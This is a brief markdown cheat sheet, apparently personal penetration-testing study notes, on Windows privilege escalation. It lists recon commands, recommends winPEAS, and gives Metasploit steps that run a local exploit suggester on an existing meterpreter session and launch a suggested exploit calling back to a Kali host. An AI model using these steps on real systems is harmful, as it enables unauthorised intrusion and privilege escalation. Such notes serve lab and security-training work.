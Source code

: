## Intro
Whenewer possible, use winpeas

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

## Basic info
```
systeminfo

ipconfig

net start (running services)
```

## Usefull CMD commands
```
# get own groups
whoami /priv

# Read file
type <filename>

# Find file restrictions (similar to ls -al)
icacls <filename>

# Change text file contents
echo <new content> > <filename>
```

## Metasploit
Assuming you have an existing meterpreter access to the target
```
# background current session
background

# find available exploits
use post/multi/recon/local_exploit_suggester
set session X
run

# choose one of the suggested exploits and run it
use windows/local/XXXXX
set session X
set LHOST <KALI IP>
run

# IF it doesn't work
# 1. Verify LHOST, LPORT and Session
# 2. Choose different suggested exploit.
# PROFIT $$$
```

## Additional materials
https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation
